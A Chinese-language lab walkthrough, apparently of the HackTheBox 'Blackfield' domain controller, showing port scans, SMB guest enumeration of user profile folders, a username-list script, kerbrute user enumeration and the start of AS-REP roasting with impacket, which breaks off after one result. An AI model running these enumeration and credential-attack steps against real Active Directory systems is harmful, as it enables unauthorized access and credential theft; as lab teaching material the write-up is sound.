

# README

## 信息收集

```shell
sudo nmap -p- --min-rate 10000 10.10.10.192
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-15 10:50 CST
Nmap scan report for 10.10.10.192
Host is up (0.29s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 14.20 seconds

```

```shell
sudo nmap -p 53,88,135,389,445,593,3268,5985 -sC -sV  10.10.10.192
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-15 10:52 CST
Nmap scan report for 10.10.10.192
Host is up (0.24s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-15 09:52:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2023-09-15T09:52:46
|_  start_date: N/A
|_clock-skew: 6h59m59s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.54 seconds

```

域名是`BLACKFIELD.local`，`blackfield.local`

### 53端口

```shell
dig axfr @10.10.10.192 BLACKFIELD.local

; <<>> DiG 9.10.6 <<>> axfr @10.10.10.192 BLACKFIELD.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```


### 135端口

```shell
rpcclient -U "" -N 10.10.10.192
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
rpcclient $> v
command not found: v
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```


### 389端口

```shell
ldapsearch -x -b "DC=blackfield,DC=local"  -s base -h 10.10.10.192
# extended LDIF
#
# LDAPv3
# base <DC=blackfield,DC=local> with scope baseObject
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this ope
 ration a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```


### 445端口

```shell
smbmap -H 10.10.10.192

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 0 hosts serving SMB
```

```shell
smbclient -N -L //10.10.10.192/
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	forensic        Disk      Forensic / Audit share.
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	profiles$       Disk
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```


事实上可以在smbmap的时候制定一个用户名：

```shell
smbmap -u feng  -H 10.10.10.192

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.192:445	Name: 10.10.10.192        	Status: Guest session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share
	profiles$                                         	READ ONLY
	SYSVOL                                            	NO ACCESS	Logon server share

```

这时候是使用访客会话。发现了`profiles$`和`IPC$`，可读，连上去发现`profiles$`下存在很多用户名：

```shell
smbclient //10.10.10.192/profiles$
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Password for [WORKGROUP\feng]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun  4 00:47:12 2020
  ..                                  D        0  Thu Jun  4 00:47:12 2020
  AAlleni                             D        0  Thu Jun  4 00:47:11 2020
  ABarteski                           D        0  Thu Jun  4 00:47:11 2020
  ABekesz                             D        0  Thu Jun  4 00:47:11 2020
  ABenzies                            D        0  Thu Jun  4 00:47:11 2020
  ABiemiller                          D        0  Thu Jun  4 00:47:11 2020
  AChampken                           D        0  Thu Jun  4 00:47:11 2020
  ACheretei                           D        0  Thu Jun  4 00:47:11 2020
  ACsonaki                            D        0  Thu Jun  4 00:47:11 2020
  AHigchens                           D        0  Thu Jun  4 00:47:11 2020
  AJaquemai                           D        0  Thu Jun  4 00:47:11 2020
  AKlado                              D        0  Thu Jun  4 00:47:11 2020
  AKoffenburger                       D        0  Thu Jun  4 00:47:11 2020
  AKollolli                           D        0  Thu Jun  4 00:47:11 2020
  AKruppe                             D        0  Thu Jun  4 00:47:11 2020
  AKubale                             D        0  Thu Jun  4 00:47:11 2020
  ALamerz                             D        0  Thu Jun  4 00:47:11 2020
  AMaceldon                           D        0  Thu Jun  4 00:47:11 2020
  AMasalunga                          D        0  Thu Jun  4 00:47:11 2020
  ANavay                              D        0  Thu Jun  4 00:47:11 2020
  ANesterova                          D        0  Thu Jun  4 00:47:11 2020
  ANeusse                             D        0  Thu Jun  4 00:47:11 2020
  AOkleshen                           D        0  Thu Jun  4 00:47:11 2020
  APustulka                           D        0  Thu Jun  4 00:47:11 2020
  ARotella                            D        0  Thu Jun  4 00:47:11 2020
  ASanwardeker                        D        0  Thu Jun  4 00:47:11 2020
  AShadaia                            D        0  Thu Jun  4 00:47:11 2020
  ASischo                             D        0  Thu Jun  4 00:47:11 2020
  ASpruce                             D        0  Thu Jun  4 00:47:11 2020
  ATakach                             D        0  Thu Jun  4 00:47:11 2020
  ATaueg                              D        0  Thu Jun  4 00:47:11 2020
  ATwardowski                         D        0  Thu Jun  4 00:47:11 2020
  audit2020                           D        0  Thu Jun  4 00:47:11 2020
  AWangenheim                         D        0  Thu Jun  4 00:47:11 2020
  AWorsey                             D        0  Thu Jun  4 00:47:11 2020
  AZigmunt                            D        0  Thu Jun  4 00:47:11 2020
  BBakajza                            D        0  Thu Jun  4 00:47:11 2020
  BBeloucif                           D        0  Thu Jun  4 00:47:11 2020
  BCarmitcheal                        D        0  Thu Jun  4 00:47:11 2020
  BConsultant                         D        0  Thu Jun  4 00:47:11 2020
  BErdossy                            D        0  Thu Jun  4 00:47:11 2020
  BGeminski                           D        0  Thu Jun  4 00:47:11 2020
  BLostal                             D        0  Thu Jun  4 00:47:11 2020
  BMannise                            D        0  Thu Jun  4 00:47:11 2020
  BNovrotsky                          D        0  Thu Jun  4 00:47:11 2020
  BRigiero                            D        0  Thu Jun  4 00:47:11 2020
  BSamkoses                           D        0  Thu Jun  4 00:47:11 2020
  BZandonella                         D        0  Thu Jun  4 00:47:11 2020
  CAcherman                           D        0  Thu Jun  4 00:47:12 2020
  CAkbari                             D        0  Thu Jun  4 00:47:12 2020
  CAldhowaihi                         D        0  Thu Jun  4 00:47:12 2020
  CArgyropolous                       D        0  Thu Jun  4 00:47:12 2020
  CDufrasne                           D        0  Thu Jun  4 00:47:12 2020
  CGronk                              D        0  Thu Jun  4 00:47:11 2020
  Chiucarello                         D        0  Thu Jun  4 00:47:11 2020
  Chiuccariello                       D        0  Thu Jun  4 00:47:12 2020
  CHoytal                             D        0  Thu Jun  4 00:47:12 2020
  CKijauskas                          D        0  Thu Jun  4 00:47:12 2020
  CKolbo                              D        0  Thu Jun  4 00:47:12 2020
  CMakutenas                          D        0  Thu Jun  4 00:47:12 2020
  CMorcillo                           D        0  Thu Jun  4 00:47:11 2020
  CSchandall                          D        0  Thu Jun  4 00:47:12 2020
  CSelters                            D        0  Thu Jun  4 00:47:12 2020
  CTolmie                             D        0  Thu Jun  4 00:47:12 2020
  DCecere                             D        0  Thu Jun  4 00:47:12 2020
  DChintalapalli                      D        0  Thu Jun  4 00:47:12 2020
  DCwilich                            D        0  Thu Jun  4 00:47:12 2020
  DGarbatiuc                          D        0  Thu Jun  4 00:47:12 2020
  DKemesies                           D        0  Thu Jun  4 00:47:12 2020
  DMatuka                             D        0  Thu Jun  4 00:47:12 2020
  DMedeme                             D        0  Thu Jun  4 00:47:12 2020
  DMeherek                            D        0  Thu Jun  4 00:47:12 2020
  DMetych                             D        0  Thu Jun  4 00:47:12 2020
  DPaskalev                           D        0  Thu Jun  4 00:47:12 2020
  DPriporov                           D        0  Thu Jun  4 00:47:12 2020
  DRusanovskaya                       D        0  Thu Jun  4 00:47:12 2020
  DVellela                            D        0  Thu Jun  4 00:47:12 2020
  DVogleson                           D        0  Thu Jun  4 00:47:12 2020
  DZwinak                             D        0  Thu Jun  4 00:47:12 2020
  EBoley                              D        0  Thu Jun  4 00:47:12 2020
  EEulau                              D        0  Thu Jun  4 00:47:12 2020
  EFeatherling                        D        0  Thu Jun  4 00:47:12 2020
  EFrixione                           D        0  Thu Jun  4 00:47:12 2020
  EJenorik                            D        0  Thu Jun  4 00:47:12 2020
  EKmilanovic                         D        0  Thu Jun  4 00:47:12 2020
  ElKatkowsky                         D        0  Thu Jun  4 00:47:12 2020
  EmaCaratenuto                       D        0  Thu Jun  4 00:47:12 2020
  EPalislamovic                       D        0  Thu Jun  4 00:47:12 2020
  EPryar                              D        0  Thu Jun  4 00:47:12 2020
  ESachhitello                        D        0  Thu Jun  4 00:47:12 2020
  ESariotti                           D        0  Thu Jun  4 00:47:12 2020
  ETurgano                            D        0  Thu Jun  4 00:47:12 2020
  EWojtila                            D        0  Thu Jun  4 00:47:12 2020
  FAlirezai                           D        0  Thu Jun  4 00:47:12 2020
  FBaldwind                           D        0  Thu Jun  4 00:47:12 2020
  FBroj                               D        0  Thu Jun  4 00:47:12 2020
  FDeblaquire                         D        0  Thu Jun  4 00:47:12 2020
  FDegeorgio                          D        0  Thu Jun  4 00:47:12 2020
  FianLaginja                         D        0  Thu Jun  4 00:47:12 2020
  FLasokowski                         D        0  Thu Jun  4 00:47:12 2020
  FPflum                              D        0  Thu Jun  4 00:47:12 2020
  FReffey                             D        0  Thu Jun  4 00:47:12 2020
  GaBelithe                           D        0  Thu Jun  4 00:47:12 2020
  Gareld                              D        0  Thu Jun  4 00:47:12 2020
  GBatowski                           D        0  Thu Jun  4 00:47:12 2020
  GForshalger                         D        0  Thu Jun  4 00:47:12 2020
  GGomane                             D        0  Thu Jun  4 00:47:12 2020
  GHisek                              D        0  Thu Jun  4 00:47:12 2020
  GMaroufkhani                        D        0  Thu Jun  4 00:47:12 2020
  GMerewether                         D        0  Thu Jun  4 00:47:12 2020
  GQuinniey                           D        0  Thu Jun  4 00:47:12 2020
  GRoswurm                            D        0  Thu Jun  4 00:47:12 2020
  GWiegard                            D        0  Thu Jun  4 00:47:12 2020
  HBlaziewske                         D        0  Thu Jun  4 00:47:12 2020
  HColantino                          D        0  Thu Jun  4 00:47:12 2020
  HConforto                           D        0  Thu Jun  4 00:47:12 2020
  HCunnally                           D        0  Thu Jun  4 00:47:12 2020
  HGougen                             D        0  Thu Jun  4 00:47:12 2020
  HKostova                            D        0  Thu Jun  4 00:47:12 2020
  IChristijr                          D        0  Thu Jun  4 00:47:12 2020
  IKoledo                             D        0  Thu Jun  4 00:47:12 2020
  IKotecky                            D        0  Thu Jun  4 00:47:12 2020
  ISantosi                            D        0  Thu Jun  4 00:47:12 2020
  JAngvall                            D        0  Thu Jun  4 00:47:12 2020
  JBehmoiras                          D        0  Thu Jun  4 00:47:12 2020
  JDanten                             D        0  Thu Jun  4 00:47:12 2020
  JDjouka                             D        0  Thu Jun  4 00:47:12 2020
  JKondziola                          D        0  Thu Jun  4 00:47:12 2020
  JLeytushsenior                      D        0  Thu Jun  4 00:47:12 2020
  JLuthner                            D        0  Thu Jun  4 00:47:12 2020
  JMoorehendrickson                   D        0  Thu Jun  4 00:47:12 2020
  JPistachio                          D        0  Thu Jun  4 00:47:12 2020
  JScima                              D        0  Thu Jun  4 00:47:12 2020
  JSebaali                            D        0  Thu Jun  4 00:47:12 2020
  JShoenherr                          D        0  Thu Jun  4 00:47:12 2020
  JShuselvt                           D        0  Thu Jun  4 00:47:12 2020
  KAmavisca                           D        0  Thu Jun  4 00:47:12 2020
  KAtolikian                          D        0  Thu Jun  4 00:47:12 2020
  KBrokinn                            D        0  Thu Jun  4 00:47:12 2020
  KCockeril                           D        0  Thu Jun  4 00:47:12 2020
  KColtart                            D        0  Thu Jun  4 00:47:12 2020
  KCyster                             D        0  Thu Jun  4 00:47:12 2020
  KDorney                             D        0  Thu Jun  4 00:47:12 2020
  KKoesno                             D        0  Thu Jun  4 00:47:12 2020
  KLangfur                            D        0  Thu Jun  4 00:47:12 2020
  KMahalik                            D        0  Thu Jun  4 00:47:12 2020
  KMasloch                            D        0  Thu Jun  4 00:47:12 2020
  KMibach                             D        0  Thu Jun  4 00:47:12 2020
  KParvankova                         D        0  Thu Jun  4 00:47:12 2020
  KPregnolato                         D        0  Thu Jun  4 00:47:12 2020
  KRasmor                             D        0  Thu Jun  4 00:47:12 2020
  KShievitz                           D        0  Thu Jun  4 00:47:12 2020
  KSojdelius                          D        0  Thu Jun  4 00:47:12 2020
  KTambourgi                          D        0  Thu Jun  4 00:47:12 2020
  KVlahopoulos                        D        0  Thu Jun  4 00:47:12 2020
  KZyballa                            D        0  Thu Jun  4 00:47:12 2020
  LBajewsky                           D        0  Thu Jun  4 00:47:12 2020
  LBaligand                           D        0  Thu Jun  4 00:47:12 2020
  LBarhamand                          D        0  Thu Jun  4 00:47:12 2020
  LBirer                              D        0  Thu Jun  4 00:47:12 2020
  LBobelis                            D        0  Thu Jun  4 00:47:12 2020
  LChippel                            D        0  Thu Jun  4 00:47:12 2020
  LChoffin                            D        0  Thu Jun  4 00:47:12 2020
  LCominelli                          D        0  Thu Jun  4 00:47:12 2020
  LDruge                              D        0  Thu Jun  4 00:47:12 2020
  LEzepek                             D        0  Thu Jun  4 00:47:12 2020
  LHyungkim                           D        0  Thu Jun  4 00:47:12 2020
  LKarabag                            D        0  Thu Jun  4 00:47:12 2020
  LKirousis                           D        0  Thu Jun  4 00:47:12 2020
  LKnade                              D        0  Thu Jun  4 00:47:12 2020
  LKrioua                             D        0  Thu Jun  4 00:47:12 2020
  LLefebvre                           D        0  Thu Jun  4 00:47:12 2020
  LLoeradeavilez                      D        0  Thu Jun  4 00:47:12 2020
  LMichoud                            D        0  Thu Jun  4 00:47:12 2020
  LTindall                            D        0  Thu Jun  4 00:47:12 2020
  LYturbe                             D        0  Thu Jun  4 00:47:12 2020
  MArcynski                           D        0  Thu Jun  4 00:47:12 2020
  MAthilakshmi                        D        0  Thu Jun  4 00:47:12 2020
  MAttravanam                         D        0  Thu Jun  4 00:47:12 2020
  MBrambini                           D        0  Thu Jun  4 00:47:12 2020
  MHatziantoniou                      D        0  Thu Jun  4 00:47:12 2020
  MHoerauf                            D        0  Thu Jun  4 00:47:12 2020
  MKermarrec                          D        0  Thu Jun  4 00:47:12 2020
  MKillberg                           D        0  Thu Jun  4 00:47:12 2020
  MLapesh                             D        0  Thu Jun  4 00:47:12 2020
  MMakhsous                           D        0  Thu Jun  4 00:47:12 2020
  MMerezio                            D        0  Thu Jun  4 00:47:12 2020
  MNaciri                             D        0  Thu Jun  4 00:47:12 2020
  MShanmugarajah                      D        0  Thu Jun  4 00:47:12 2020
  MSichkar                            D        0  Thu Jun  4 00:47:12 2020
  MTemko                              D        0  Thu Jun  4 00:47:12 2020
  MTipirneni                          D        0  Thu Jun  4 00:47:12 2020
  MTonuri                             D        0  Thu Jun  4 00:47:12 2020
  MVanarsdel                          D        0  Thu Jun  4 00:47:12 2020
  NBellibas                           D        0  Thu Jun  4 00:47:12 2020
  NDikoka                             D        0  Thu Jun  4 00:47:12 2020
  NGenevro                            D        0  Thu Jun  4 00:47:12 2020
  NGoddanti                           D        0  Thu Jun  4 00:47:12 2020
  NMrdirk                             D        0  Thu Jun  4 00:47:12 2020
  NPulido                             D        0  Thu Jun  4 00:47:12 2020
  NRonges                             D        0  Thu Jun  4 00:47:12 2020
  NSchepkie                           D        0  Thu Jun  4 00:47:12 2020
  NVanpraet                           D        0  Thu Jun  4 00:47:12 2020
  OBelghazi                           D        0  Thu Jun  4 00:47:12 2020
  OBushey                             D        0  Thu Jun  4 00:47:12 2020
  OHardybala                          D        0  Thu Jun  4 00:47:12 2020
  OLunas                              D        0  Thu Jun  4 00:47:12 2020
  ORbabka                             D        0  Thu Jun  4 00:47:12 2020
  PBourrat                            D        0  Thu Jun  4 00:47:12 2020
  PBozzelle                           D        0  Thu Jun  4 00:47:12 2020
  PBranti                             D        0  Thu Jun  4 00:47:12 2020
  PCapperella                         D        0  Thu Jun  4 00:47:12 2020
  PCurtz                              D        0  Thu Jun  4 00:47:12 2020
  PDoreste                            D        0  Thu Jun  4 00:47:12 2020
  PGegnas                             D        0  Thu Jun  4 00:47:12 2020
  PMasulla                            D        0  Thu Jun  4 00:47:12 2020
  PMendlinger                         D        0  Thu Jun  4 00:47:12 2020
  PParakat                            D        0  Thu Jun  4 00:47:12 2020
  PProvencer                          D        0  Thu Jun  4 00:47:12 2020
  PTesik                              D        0  Thu Jun  4 00:47:12 2020
  PVinkovich                          D        0  Thu Jun  4 00:47:12 2020
  PVirding                            D        0  Thu Jun  4 00:47:12 2020
  PWeinkaus                           D        0  Thu Jun  4 00:47:12 2020
  RBaliukonis                         D        0  Thu Jun  4 00:47:12 2020
  RBochare                            D        0  Thu Jun  4 00:47:12 2020
  RKrnjaic                            D        0  Thu Jun  4 00:47:12 2020
  RNemnich                            D        0  Thu Jun  4 00:47:12 2020
  RPoretsky                           D        0  Thu Jun  4 00:47:12 2020
  RStuehringer                        D        0  Thu Jun  4 00:47:12 2020
  RSzewczuga                          D        0  Thu Jun  4 00:47:12 2020
  RVallandas                          D        0  Thu Jun  4 00:47:12 2020
  RWeatherl                           D        0  Thu Jun  4 00:47:12 2020
  RWissor                             D        0  Thu Jun  4 00:47:12 2020
  SAbdulagatov                        D        0  Thu Jun  4 00:47:12 2020
  SAjowi                              D        0  Thu Jun  4 00:47:12 2020
  SAlguwaihes                         D        0  Thu Jun  4 00:47:12 2020
  SBonaparte                          D        0  Thu Jun  4 00:47:12 2020
  SBouzane                            D        0  Thu Jun  4 00:47:12 2020
  SChatin                             D        0  Thu Jun  4 00:47:12 2020
  SDellabitta                         D        0  Thu Jun  4 00:47:12 2020
  SDhodapkar                          D        0  Thu Jun  4 00:47:12 2020
  SEulert                             D        0  Thu Jun  4 00:47:12 2020
  SFadrigalan                         D        0  Thu Jun  4 00:47:12 2020
  SGolds                              D        0  Thu Jun  4 00:47:12 2020
  SGrifasi                            D        0  Thu Jun  4 00:47:12 2020
  SGtlinas                            D        0  Thu Jun  4 00:47:12 2020
  SHauht                              D        0  Thu Jun  4 00:47:12 2020
  SHederian                           D        0  Thu Jun  4 00:47:12 2020
  SHelregel                           D        0  Thu Jun  4 00:47:12 2020
  SKrulig                             D        0  Thu Jun  4 00:47:12 2020
  SLewrie                             D        0  Thu Jun  4 00:47:12 2020
  SMaskil                             D        0  Thu Jun  4 00:47:12 2020
  Smocker                             D        0  Thu Jun  4 00:47:12 2020
  SMoyta                              D        0  Thu Jun  4 00:47:12 2020
  SRaustiala                          D        0  Thu Jun  4 00:47:12 2020
  SReppond                            D        0  Thu Jun  4 00:47:12 2020
  SSicliano                           D        0  Thu Jun  4 00:47:12 2020
  SSilex                              D        0  Thu Jun  4 00:47:12 2020
  SSolsbak                            D        0  Thu Jun  4 00:47:12 2020
  STousignaut                         D        0  Thu Jun  4 00:47:12 2020
  support                             D        0  Thu Jun  4 00:47:12 2020
  svc_backup                          D        0  Thu Jun  4 00:47:12 2020
  SWhyte                              D        0  Thu Jun  4 00:47:12 2020
  SWynigear                           D        0  Thu Jun  4 00:47:12 2020
  TAwaysheh                           D        0  Thu Jun  4 00:47:12 2020
  TBadenbach                          D        0  Thu Jun  4 00:47:12 2020
  TCaffo                              D        0  Thu Jun  4 00:47:12 2020
  TCassalom                           D        0  Thu Jun  4 00:47:12 2020
  TEiselt                             D        0  Thu Jun  4 00:47:12 2020
  TFerencdo                           D        0  Thu Jun  4 00:47:12 2020
  TGaleazza                           D        0  Thu Jun  4 00:47:12 2020
  TKauten                             D        0  Thu Jun  4 00:47:12 2020
  TKnupke                             D        0  Thu Jun  4 00:47:12 2020
  TLintlop                            D        0  Thu Jun  4 00:47:12 2020
  TMusselli                           D        0  Thu Jun  4 00:47:12 2020
  TOust                               D        0  Thu Jun  4 00:47:12 2020
  TSlupka                             D        0  Thu Jun  4 00:47:12 2020
  TStausland                          D        0  Thu Jun  4 00:47:12 2020
  TZumpella                           D        0  Thu Jun  4 00:47:12 2020
  UCrofskey                           D        0  Thu Jun  4 00:47:12 2020
  UMarylebone                         D        0  Thu Jun  4 00:47:12 2020
  UPyrke                              D        0  Thu Jun  4 00:47:12 2020
  VBublavy                            D        0  Thu Jun  4 00:47:12 2020
  VButziger                           D        0  Thu Jun  4 00:47:12 2020
  VFuscca                             D        0  Thu Jun  4 00:47:12 2020
  VLitschauer                         D        0  Thu Jun  4 00:47:12 2020
  VMamchuk                            D        0  Thu Jun  4 00:47:12 2020
  VMarija                             D        0  Thu Jun  4 00:47:12 2020
  VOlaosun                            D        0  Thu Jun  4 00:47:12 2020
  VPapalouca                          D        0  Thu Jun  4 00:47:12 2020
  WSaldat                             D        0  Thu Jun  4 00:47:12 2020
  WVerzhbytska                        D        0  Thu Jun  4 00:47:12 2020
  WZelazny                            D        0  Thu Jun  4 00:47:12 2020
  XBemelen                            D        0  Thu Jun  4 00:47:12 2020
  XDadant                             D        0  Thu Jun  4 00:47:12 2020
  XDebes                              D        0  Thu Jun  4 00:47:12 2020
  XKonegni                            D        0  Thu Jun  4 00:47:12 2020
  XRykiel                             D        0  Thu Jun  4 00:47:12 2020
  YBleasdale                          D        0  Thu Jun  4 00:47:12 2020
  YHuftalin                           D        0  Thu Jun  4 00:47:12 2020
  YKivlen                             D        0  Thu Jun  4 00:47:12 2020
  YKozlicki                           D        0  Thu Jun  4 00:47:12 2020
  YNyirenda                           D        0  Thu Jun  4 00:47:12 2020
  YPredestin                          D        0  Thu Jun  4 00:47:12 2020
  YSeturino                           D        0  Thu Jun  4 00:47:12 2020
  YSkoropada                          D        0  Thu Jun  4 00:47:12 2020
  YVonebers                           D        0  Thu Jun  4 00:47:12 2020
  YZarpentine                         D        0  Thu Jun  4 00:47:12 2020
  ZAlatti                             D        0  Thu Jun  4 00:47:12 2020
  ZKrenselewski                       D        0  Thu Jun  4 00:47:12 2020
  ZMalaab                             D        0  Thu Jun  4 00:47:12 2020
  ZMiick                              D        0  Thu Jun  4 00:47:12 2020
  ZScozzari                           D        0  Thu Jun  4 00:47:12 2020
  ZTimofeeff                          D        0  Thu Jun  4 00:47:12 2020
  ZWausik                             D        0  Thu Jun  4 00:47:12 2020

		5102079 blocks of size 4096. 1693972 blocks available
```

制作成字典：

```python
with open('result.txt') as f:
    lines = f.readlines()
    for line in lines:
        line = line[:38]
        line = line.replace(" ","")
        print(line)
```


### 88端口

88端口这边一开始是拿了一个大字典去跑：

```shell
./kerbrute_darwin_amd64 userenum --dc 10.10.10.192 /Users/feng/many-ctf/SecLists/Usernames/xato-net-10-million-usernames.txt -d blackfield.local

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/15/23 - Ronnie Flathers @ropnop

2023/09/15 10:57:16 >  Using KDC(s):
2023/09/15 10:57:16 >  	10.10.10.192:88

2023/09/15 11:01:05 >  [+] VALID USERNAME:	 support@blackfield.local
2023/09/15 11:02:52 >  [+] VALID USERNAME:	 guest@blackfield.local
2023/09/15 11:14:48 >  [+] VALID USERNAME:	 administrator@blackfield.local
```

跑出了support。

在smb那边拿到了很多用户名之后拿新字典去跑：

```shell
./kerbrute_darwin_amd64 userenum --dc 10.10.10.192 user.txt -d blackfield.local

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 09/15/23 - Ronnie Flathers @ropnop

2023/09/15 11:29:18 >  Using KDC(s):
2023/09/15 11:29:18 >  	10.10.10.192:88

2023/09/15 11:29:41 >  [+] VALID USERNAME:	 audit2020@blackfield.local
2023/09/15 11:31:44 >  [+] VALID USERNAME:	 support@blackfield.local
2023/09/15 11:31:49 >  [+] VALID USERNAME:	 svc_backup@blackfield.local
2023/09/15 11:32:18 >  Done! Tested 314 usernames (3 valid) in 179.318 seconds

```

跑出了三个用户。

## AS-REP Roasting

拿三个用户做成字典测一下：

```shell
python3.10 GetNPUsers.py -dc-ip 10.10.10.192 blackfield.local/ -usersfile user.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
